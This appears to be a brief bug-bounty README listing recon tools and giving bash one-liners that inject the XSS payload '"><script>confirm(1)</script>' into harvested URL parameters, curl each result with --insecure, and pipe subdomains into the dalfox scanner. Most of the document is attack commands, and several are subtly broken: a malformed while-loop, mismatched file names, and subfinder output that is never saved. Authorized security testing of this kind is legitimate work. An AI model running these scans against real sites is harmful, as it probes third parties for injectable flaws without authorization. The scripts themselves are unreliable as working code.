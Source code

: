 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf

https://github.com/tomnomnom/waybackurls

https://github.com/lc/gau

https://github.com/tomnomnom/qsreplace

https://github.com/projectdiscovery/httpx

https://github.com/tomnomnom/httprobe

https://github.com/tomnomnom/anew

https://github.com/devanshbatham/ParamSpider

https://github.com/hahwul/dalfox

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat domains.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host" ; done
```

## Find and testing XSS with Dalfox

```bash
subfinder -d domain.com -silent && httpx -l subdomains -silent | dalfox pipe -F
```
